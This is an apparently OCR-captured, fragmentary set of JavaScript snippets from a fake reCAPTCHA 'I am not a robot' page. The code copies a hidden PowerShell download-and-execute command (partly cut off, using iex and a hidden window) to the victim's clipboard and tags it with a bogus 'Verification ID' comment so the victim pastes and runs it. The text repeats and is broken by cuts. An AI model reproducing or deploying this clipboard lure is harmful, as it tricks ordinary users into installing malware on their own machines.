 - `verification_id){ const suffix = " # " const ploy = "â ''I am not a robot - reCAPTCHA Verification Hash: " const end = "''" const textToCopy = commandToRun + suffix + ploy + verification_id + end setClipboardCopyData(textToCopy); } function showVerifyWindow()... ...dy.append(tempTextArea); tempTextArea.select(); document.execCommand("copy");... ...32.ps1 | iex' -WindowStyle Hidden\""; const commandToRun = "powershell " + htaPath; stageClipboa... ...tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempText... ...k", function (event) { event.preventDefault(); checkboxBtn.disabled = true; runClickedCheckboxEffects(); }); } } function runClickedCheckboxEffects() { hideCaptchaCheckbox(); setTimeout(function(){ showCaptchaLoading(); },500); setTimeout(function(){ showVerifyWindow(); },900) } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; checkboxBtnSpinner.style.animation = "spin 1s linear infinite"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.opacity = "0"; checkboxBtnSpinner.style.animation = "none"; setTimeout(function() { checkboxBtnSpinner.style.visibility = "hidden"; }, 500); } function hideCaptchaCheckbox() { checkboxBtn.style.visibility = "hidden"; checkboxBtn.style.opacity = "0"; } function showCaptchaCheckbox() { checkboxBtn.style.width = "100%"; checkboxBtn.style.height = "100%"; checkboxBtn.style.borderRadius = "2px"; checkboxBtn.style.margin = "0"; checkboxBtn.style.opacity = "1"; } function hideCaptchaCheckbox() { checkboxBtn.style.width = "4px"; checkboxBtn.style.height = "4px"; checkboxBtn.style.borderRadius = "50%"; checkboxBtn.style.marginLeft = "25px"; checkboxBtn.style.marginTop = "33px"; checkboxBtn.style.opacity = "0"; } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.visibility = "hidden"; checkboxBtnSpinner.style.opacity = "0"; } function generateRandomNumber() { const min = 1000; const max = 9999; return Math.floor(Math.random() * (max - min + 1) + min).toString(); } function closeverifywindow() { verifywindow.style.display = "none"; verifywindow.style.visibility = "hidden"; verifywindow.style.opacity = "0"; showCaptchaCheckbox(); hideCaptchaLoading(); checkboxBtn.disabled = false; } function isverifywindowVisible() { return verifywindow.style.display !== "none" && verifywindow.style.display !== ""; } function setClipboardCopyData(textToCopy){ const tempTextArea = document.createElement("textarea"); tempTextArea.value = textToCopy; document.body.append(tempTextArea); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextArea); } function stageClipboard(commandToRun, verification_id){ const suffix = " # " const ploy = "â ''I am not a robot - reCAPTCHA Verification ID: " const end = "''" const textToCopy = commandToRun setClipboardCopyData(textToCopy); } function showVerifyWindow() {... ...y.append(tempTextArea); tempTextArea.select(); document.execCommand("copy");... ...cation-id').textContent = verification_id; const commandToRun = `POWerShEll -W h "[Text.Encoding]::UTF8.GetString... ...); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextA... ...ck", function (event) { event.preventDefault(); checkboxBtn.disabled = true; runClickedCheckboxEffects(); }); } } function runClickedCheckboxEffects() { hideCaptchaCheckbox(); setTimeout(function(){ showCaptchaLoading(); },500); setTimeout(function(){ showVerifyWindow(); },900) } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; checkboxBtnSpinner.style.animation = "spin 1s linear infinite"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.opacity = "0"; checkboxBtnSpinner.style.animation = "none"; setTimeout(function() { checkboxBtnSpinner.style.visibility = "hidden"; }, 500); } function hideCaptchaCheckbox() { checkboxBtn.style.visibility = "hidden"; checkboxBtn.style.opacity = "0"; } function showCaptchaCheckbox() { checkboxBtn.style.width = "100%"; checkboxBtn.style.height = "100%"; checkboxBtn.style.borderRadius = "2px"; checkboxBtn.style.margin = "21px 0 0 12px"; checkboxBtn.style.opacity = "1"; } function hideCaptchaCheckbox() { checkboxBtn.style.width = "4px"; checkboxBtn.style.height = "4px"; checkboxBtn.style.borderRadius = "50%"; checkboxBtn.style.marginLeft = "25px"; checkboxBtn.style.marginTop = "33px"; checkboxBtn.style.opacity = "0"; } function showCaptchaLoading() { checkboxBtnSpinner.style.visibility = "visible"; checkboxBtnSpinner.style.opacity = "1"; } function hideCaptchaLoading() { checkboxBtnSpinner.style.visibility = "hidden"; checkboxBtnSpinner.style.opacity = "0"; } function generateRandomNumber() { const min = 1000; const max = 9999; return Math.floor(Math.random() * (max - min + 1) + min).toString(); } function closeverifywindow() { verifywindow.style.display = "none"; verifywindow.style.visibility = "hidden"; verifywindow.style.opacity = "0"; showCaptchaCheckbox(); hideCaptchaLoading(); checkboxBtn.disabled = false; } function isverifywindowVisible() { return verifywindow.style.display !== "none" && verifywindow.style.display !== ""; } function setClipboardCopyData(textToCopy){ const tempTextArea = document.createElement("textarea"); tempTextArea.value = textToCopy; document.body.append(tempTextArea); tempTextArea.select(); document.execCommand("copy"); document.body.removeChild(tempTextArea); } function stageClipboard(commandToRun, verification_id){ const suffix = " # " const ploy = "â ''I am not a robot - reCAPTCHA Verification ID: " const end = "''" const textToCopy = commandToRun + suffix + ploy + verification_id + end setClipboardCopyData(textToCopy); } function showVerifyWindow()... ...dy.append(tempTextArea);